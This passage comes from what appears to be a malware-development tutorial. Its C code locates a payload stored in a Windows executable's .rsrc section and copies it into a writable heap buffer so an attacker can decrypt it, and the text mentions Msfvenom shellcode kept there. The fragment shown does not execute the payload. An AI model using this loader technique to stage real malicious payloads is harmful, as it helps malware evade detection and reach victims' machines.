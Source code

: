 ```c 
	if (sPayloadSize == NULL) {
		// in case of function failure 
		printf("[!] SizeofResource Failed With Error : %d \n", GetLastError());
		return -1;
	}
	
	// Printing pointer and size to the screen
	printf("[i] pPayloadAddress var : 0x%p \n", pPayloadAddress);
	printf("[i] sPayloadSize var : %ld \n", sPayloadSize);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}
```

After compiling and running the code above, the payload address along with its size will be printed onto the screen. It is important to note that this address is in the `.rsrc` section, which is read-only memory, and any attempts to change or edit data within it will cause an access violation error. To edit the payload, a buffer must be allocated with the same size as the payload and copied over. This new buffer is where changes, such as decrypting the payload, can be made.

Since the payload can't be edited directly from within the resource section, it must be moved to a temporary buffer to update the `.rsrc` payload. To do so, memory is allocated the size of the payload using `HeapAlloc` and then the payload is moved from the resource section to the temporary buffer using `memcpy`. See below for the implementation

```c 
// Allocating memory using a HeapAlloc call
PVOID pTmpBuffer = HeapAlloc(GetProcessHeap(), 0, sPayloadSize);
if (pTmpBuffer != NULL){
	// copying the payload from resource section to the new buffer 
	memcpy(pTmpBuffer, pPayloadAddress, sPayloadSize);
}

// Printing the base address of our buffer (pTmpBuffer)
printf("[i] pTmpBuffer var : 0x%p \n", pTmpBuffer);
```

Since `pTmpBuffer` now points to a writable memory region that is holding the payload, it's possible for the attacker to decrypt the payload or perform any updates to it as needed.

The image below shows the Msfvenom shellcode stored in the resource section.
